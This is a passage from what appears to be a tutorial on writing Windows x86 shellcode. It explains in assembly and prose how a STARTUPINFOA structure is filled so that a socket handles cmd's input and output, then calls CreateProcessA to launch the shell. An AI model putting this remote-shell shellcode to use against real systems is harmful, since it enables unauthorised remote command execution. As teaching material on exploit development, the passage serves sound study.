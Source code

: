 ```c
PUSH EDX                             ;dwXSize => NULL
PUSH EDX                             ;dwY => NULL
PUSH EDX                             ;dwX => NULL
PUSH EDX                             ;pTitle => NULL
PUSH EDX                             ;pDesktop => NULL
PUSH EDX                             ;pReserved => NULL
XOR  EAX, EAX                        ;zero out EAX          
ADD  AL, 44                          ;cb => 0x44 (size of struct)
PUSH EAX                             ;eax points to STARTUPINFOA
```

<p align="justify">
Later on, as we see at the code above, we continue setting up the <code  style="background-color: lightgrey; color:black;"><b>STARTUPINFOA</b></code> structure. At lines 1-3 above, we are setting up the standard input, the standard output and the standard error by putting the socket file descriptor into the struct members <code  style="background-color: lightgrey; color:black;"><b>hStdInput</b></code>, <code  style="background-color: lightgrey; color:black;"><b>hStdOutput</b></code>, and <code  style="background-color: lightgrey; color:black;"><b>hStdError</b></code>. At the fourth line above, the <code  style="background-color: lightgrey; color:black;"><b>cbReserved2</b></code> is reserved for use by the C run-time and must be zero. Same for <code  style="background-color: lightgrey; color:black;"><b>lpReserved2</b></code> at the fifth line. At lines 6-9, we are setting the <code  style="background-color: lightgrey; color:black;"><b>STARTF_USESTDHANDLES</b></code> struct member with the value <code  style="background-color: lightgrey; color:black;"><b>0x00000100</b></code>. Then, at lines 7-16, All the other values of <code  style="background-color: lightgrey; color:black;"><b>STARTUPINFOA</b></code> structure should be null. At seventeenth line, the <code  style="background-color: lightgrey; color:black;"><b>cb</b></code> member holds the size of the <code  style="background-color: lightgrey; color:black;"><b>STARTUPINFOA</b></code> structure which is <code  style="background-color: lightgrey; color:black;"><b>0x44</b></code> in hex. Then, at eighteenth line, the <code  style="background-color: lightgrey; color:black;"><b>EAX</b></code> register contains a pointer to <code  style="background-color: lightgrey; color:black;"><b>STARTUPINFOA</b></code> structure
</p>


```c
;;ProcessInfo struct
MOV  EAX, ESP                        ;pStartupInfo
PUSH EBX                             ;pProcessInfo
PUSH EAX                             ;pStartupInfo
PUSH EDX                             ;CurrentDirectory => NULL
PUSH EDX                             ;pEnvironment => NULL
PUSH EDX                             ;CreationFlags => 0
XOR  EAX, EAX                        ;zero out EAX register                    
INC  EAX                             ;EAX => 0x00000001
PUSH EAX                             ;InheritHandles => TRUE => 1
PUSH EDX                             ;pThreadAttributes => NULL
PUSH EDX                             ;pProcessAttributes => NULL
PUSH ECX                             ;pCommandLine => pointer to "cmd"
PUSH EDX                             ;ApplicationName => NULL
CALL EBP                             ;execute CreateProcessA 
```

<p align="justify">